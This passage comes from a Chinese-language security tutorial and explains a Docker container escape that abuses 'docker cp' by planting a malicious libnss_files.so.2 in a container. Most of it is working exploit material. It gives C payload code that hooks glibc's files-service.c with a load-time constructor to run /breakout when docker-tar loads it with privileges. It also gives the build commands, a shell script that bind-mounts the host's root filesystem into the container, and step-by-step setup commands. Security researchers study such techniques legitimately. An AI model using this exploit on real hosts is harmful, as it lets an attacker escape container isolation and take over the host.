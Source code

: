 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111535776.png-water_print](assets/1699410413-54ec5f9ceb792322133d8d733f8179fb "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111535776.png-water_print")

可以看到加载了 `libnss_files-2.31.so`

##### [](#1322-%E6%9E%84%E5%BB%BA%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)1.3.2.2 构建动态链接库

`libnss_*.so` 均在 Glibc 中，首先下载 Glibc 库到本地。

首先要注释掉 `gccwarn-c = -Wstrict-prototypes -Wold-style-definition`，避免加入 payload 后编译失败。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111540158.png-water_print](assets/1699410413-3b3b1a4993558e0a1589f3b3c6839e76 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111111540158.png-water_print")

在 `./nss/nss_files` 目录下任意源码文件中添加 payload。以 `files-service.c` 为例。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>``` | ```c<br>// content should be added into nss/nss_files/files-service.c<br>#include <sys/types.h><br>#include <unistd.h><br>#include <stdio.h><br>#include <sys/wait.h><br><br># 容器内部原始 libnss_files.so.2 文件备份位置<br>#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"<br># 恶意 libnss_files.so.2 文件位置<br>#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"<br> <br>bool is_priviliged();<br> <br>__attribute__ ((constructor)) void run_at_link(void) {<br>     char * argv_break[2];<br>  // 判断是否容器外是高权限执行，即 docker-tar<br>     if (!is_priviliged())<br>           return;<br> <br>  // 攻击执行一次即可，用原始的替换备份的库文件<br>  // 避免后续对环境产生影响<br>     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);<br>  <br>    // 以 docker-tar 运行 /breakout 恶意脚本<br>  	if (!fork()) {<br>        // Child runs breakout<br>        argv_break[0] = strdup("/breakout");<br>        argv_break[1] = NULL;<br>        execve("/breakout", argv_break, NULL);<br>     }<br>     else<br>        wait(NULL); // Wait for child<br> <br>     return;<br>}<br><br>bool is_priviliged() {<br>     FILE * proc_file = fopen("/proc/self/exe", "r");<br>     if (proc_file != NULL) {<br>           fclose(proc_file);<br>           return false; // can open so /proc exists, not privileged<br>     }<br>     return true; // we're running in the context of docker-tar<br>}<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```bash<br># 目录结构：<br>- gnu<br>	- glibc-2.27<br>	- glibc-build<br><br># 安装 bison<br>apt install bison<br># 新建 glibc-build 目录<br>mkdir glibc-build<br># 要到上级目录进行 config，不然会报错<br>./glibc-2.27/glibc-build/configure --prefix=/usr/<br># 编译<br>~/glibc-2.27/glibc-build make<br>``` |

##### [](#1323-%E9%80%83%E9%80%B8)1.3.2.3 逃逸

breakout 文件：

将 procfs 伪文件系统挂载到容器内，将 PID 为 1 的根目录 /proc/1/root 绑定挂载到容器内部即可。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```shell<br>#!/bin/bash<br><br>umount /host_fs && rm -rf /host_fs<br>mkdir /host_fs<br> <br> <br>mount -t proc none /proc     # mount the host's procfs over /proc<br>cd /proc/1/root              # chdir to host's root<br>mount --bind . /host_fs      # mount host root at /host_fs<br>``` |

首先创建 victim 容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --name=victim ubuntu<br>``` |

将 breakout 脚本放到 victim 容器根目录。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker cp ./breakout victim:/breakout<br>``` |

进入容器，再将 `/lib/x86_64-linux-gnu` 下的 `libnss_files.so.2` 符号链接指向库文件移动到容器根目录下并重命名为 `original_libnss_files.so.2`，可以使用以下命令查看：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>readlink /lib/x86_64-linux-gnu/libnss_files.so.2<br><br>mv /lib/x86_64-linux-gnu/libnss_files.so.2 /original_libnss_files.so.2<br>``` |

最后将构建好的恶意 `libnss_files.so` 重命名为 `libnss_files.so.2`，放到容器内 `/lib/x86_64-linux-gnu` 下。
